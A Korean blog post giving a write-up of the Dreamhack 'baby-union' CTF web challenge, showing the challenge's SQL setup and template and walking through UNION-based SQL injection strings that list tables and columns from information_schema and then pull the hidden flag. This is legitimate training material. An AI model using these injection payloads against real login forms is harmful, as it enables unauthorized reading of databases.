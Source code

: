 ```yaml
---
title: (18) Dreamhack baby-union 문제 풀이
date: 2024-01-21 +09:00
categories:
  - 웹해킹
tags:
  - [웹해킹, 드림핵]
---
```

{% raw %}
## 문제 설명
로그인 시 계정의 정보가 출력되는 웹 서비스입니다.  
SQL INJECTION 취약점을 통해 플래그를 획득하세요. 문제에서 주어진 `init.sql` 파일의 테이블명과 컬럼명은 실제 이름과 다릅니다.  
플래그 형식은 `DH{...}` 입니다.

## 문제 풀이
먼저 `init.sql` 입니다.
```sql
CREATE DATABASE secret_db;
GRANT ALL PRIVILEGES ON secret_db.* TO 'dbuser'@'localhost' IDENTIFIED BY 'dbpass';

USE `secret_db`;
CREATE TABLE users (
  idx int auto_increment primary key,
  uid varchar(128) not null,
  upw varchar(128) not null,
  descr varchar(128) not null
);

INSERT INTO users (uid, upw, descr) values ('admin', 'apple', 'For admin');
INSERT INTO users (uid, upw, descr) values ('guest', 'melon', 'For guest');
INSERT INTO users (uid, upw, descr) values ('banana', 'test', 'For banana');
FLUSH PRIVILEGES;

CREATE TABLE fake_table_name (
  idx int auto_increment primary key,
  fake_col1 varchar(128) not null,
  fake_col2 varchar(128) not null,
  fake_col3 varchar(128) not null,
  fake_col4 varchar(128) not null
);

INSERT INTO fake_table_name (fake_col1, fake_col2, fake_col3, fake_col4) values ('flag is ', 'DH{sam','ple','flag}');
```
flag가 숨겨진 table에 있습니다.

`app.py`는 그냥 sql 요청을 보내고 데이터를 `user.html`에 보여주는 역할만 하므로 생략하겠습니다.
![](https://kyuyeop.github.io/assets/img/post/18/1.png)
사이트에 들어오면 이런 모습입니다. 일단 sqli가 되는지 부터 확인해야 합니다.
![](https://kyuyeop.github.io/assets/img/post/18/2.png)
이렇게 입력하면
![](https://kyuyeop.github.io/assets/img/post/18/3.png)
로그인이 됩니다. 이로써 sqli 취약점이 있다는 것을 알았습니다.  
  
이제 숨겨진 테이블명을 찾아야 합니다.
### information_schema
MYSQL에서 `information_schema`는 db에 관한 정보를 모아둔 db입니다.  
`information_schema.tables`를 이용해 모든 테이블에 관한 정보를 확인할 수 있습니다.  
`information_shema.columns`를 이용해 테이블에 존재하는 칼럼에 관한 정보를 확인할 수 있습니다.  
  
<br>
  
따라서 `union`을 이용해 `information_schema.tables`로 부터 `table_name`을 가져올 수 있도록 해 주었습니다. 앞선 sql의 반환 칼럼이 `idx, uid, upw, descr` 4개 이므로 필요없는 부분은 `null`로 채워줬습니다.  
```
' union select table_name,null,null,null from information_schema.tables #
```
이를 실행해보면 아래와 같이 모든 테이블의 이름이 출력됩니다.
![](https://kyuyeop.github.io/assets/img/post/18/4.png)
가장 아래에 딱 봐도 수상해 보이는 onlyflag라는 테이블이 존재함을 확인 할 수 있습니다.  
위에 있는것들은 시스템 상으로 관리되는 db들입니다. 생성 순서상 onlyflag 테이블에 flag가 있음을 알 수 있습니다.  
  
테이블 명을 알아냈으니 다음으로는 숨겨진 칼럼명을 알아야 합니다.  
아래와 같이 table_name='onlyflag'인 table로 부터 column_name을 가져왔습니다.
```
' union select column_name,null,null,null from information_schema.columns where table_name='onlyflag' #
```
이걸 입력하면 아래와 같이 onlyflag 테이블의 칼럼 이름들이 나옵니다.
![](https://kyuyeop.github.io/assets/img/post/18/5.png)
생성 순서로 보아 마지막 3개의 칼럼에 flag가 있음을 알 수 있습니다.  
  
이를 출력해야 하는데, 조심해야 할게 있습니다.
```html
{% extends "base.html" %}
{% block title %}user{% endblock %}

{% block head %}
  {{ super() }}
{% endblock %}

{% block content %}
    <h2>Hello {{ data[0][1] }}</h2><br/><br/>
    <table class="table table-striped table-sm"  style="margin-left: auto; margin-right: auto;">
        <thead>
          <tr>
            <th scope="col">#</th>
            <th scope="col">id</th>
            <th scope="col">description</th>
          </tr>
        </thead>
        <tbody>
          {% for i in data %}
          <tr>
            <th scope="row">{{ i[0] }}</th>
            <td>{{ i[1] }}</td>
            <td>{{ i[3] }}</td>
          </tr>
          {% endfor %}
        </tbody>
      </table>
{% endblock %}
```
이건 로그인에 성공한 경우 보여지는 페이지의 코드 입니다. 보시면 입력된 데이터의 0, 1, 3번 데이터를 출력해주고 있습니다. 따라서 여기에 맞춰줘야 전체 flag를 한번에 확인할 수 있습니다.
```
' union select svalue,sflag,null,sclose from onlyflag #
```
이렇게 순서를 맞춰주고 실행하면
![](https://kyuyeop.github.io/assets/img/post/18/6.png)
이렇게 조각난 flag를 얻을 수 있습니다.
{% endraw %}
